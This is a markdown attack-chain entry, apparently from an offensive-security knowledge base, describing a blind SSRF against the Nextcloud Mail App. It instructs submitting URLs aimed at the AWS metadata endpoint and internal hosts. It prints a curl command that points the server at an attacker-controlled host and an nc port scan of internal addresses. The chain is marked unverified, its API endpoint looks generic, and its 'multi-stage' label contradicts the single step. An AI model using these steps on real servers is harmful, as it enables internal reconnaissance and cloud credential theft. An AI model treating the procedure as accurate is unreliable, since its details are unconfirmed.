

---
tags:
  - ssrf
  - blind-ssrf
  - nextcloud
  - mail-app
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2024-01-10T00:00:00Z'
procedures:
  - '[[procedures/Trigger-Blind-SSRF-in-Nextcloud-Mail-App]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:53:38.643Z'
description: >-
  A single-stage attack leveraging a blind SSRF vulnerability in the Nextcloud
  Mail App to force the server to make unauthorized requests to internal or
  external resources.
skill_level: intermediate
impact_level: low
id: ff280174-ddd0-48da-9039-5a9ba7d55866
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Blind SSRF Exploitation in Nextcloud Mail App for Unauthorized Server Requests

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Low |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools

### Target Environment

- Nextcloud instance with Mail App enabled
- Web platform access
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Authenticated user account in Nextcloud
- Access to the Mail App interface
- No prior elevated privileges needed

## Detailed Attack Procedures

### Step 1: Trigger Blind SSRF
procedure: [[procedures/Trigger-Blind-SSRF-in-Nextcloud-Mail-App]]

**Objective**: Force the Nextcloud server to make unauthorized requests to arbitrary endpoints via the Mail App's URL processing.

**Instructions**: Authenticate to the Nextcloud instance and navigate to the Mail App. In a feature that accepts user-supplied URLs (such as email composition or attachment fetching), input a malicious URL pointing to an internal or external resource, such as `http://169.254.169.254/latest/meta-data/` for AWS metadata exfiltration attempts or `http://internal-host.local/` for internal scanning. Submit the input to trigger the server-side request. For blind SSRF verification, use a controlled endpoint like a Burp Collaborator server to observe DNS or HTTP interactions.

Use [[commands/curl-ssrf-trigger]] to simulate the request if API access is available:

```bash
curl -X POST 'https://nextcloud.example.com/apps/mail/api/v1/compose' -H 'Content-Type: application/json' -d '{"url":"http://attacker-controlled.com/test"}'
```

Then probe with [[commands/nc-port-scan]] for timing-based blind detection:

```bash
nc -zv internal-ip 80-1024
```

**Expected Output**: No direct response from the app, but server logs or external listener (e.g., Collaborator) may show incoming requests confirming SSRF.

**Success Indicators**:
- Incoming request observed on controlled endpoint
- Timing delays or errors indicating internal access attempts

## Attack Chain Summary

### Key Achievements

1. Successful trigger of blind SSRF in Nextcloud Mail App
2. Potential access to internal resources without direct feedback
3. Demonstration of low-severity impact on server request capabilities

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2024-01-10T00:00:00Z*
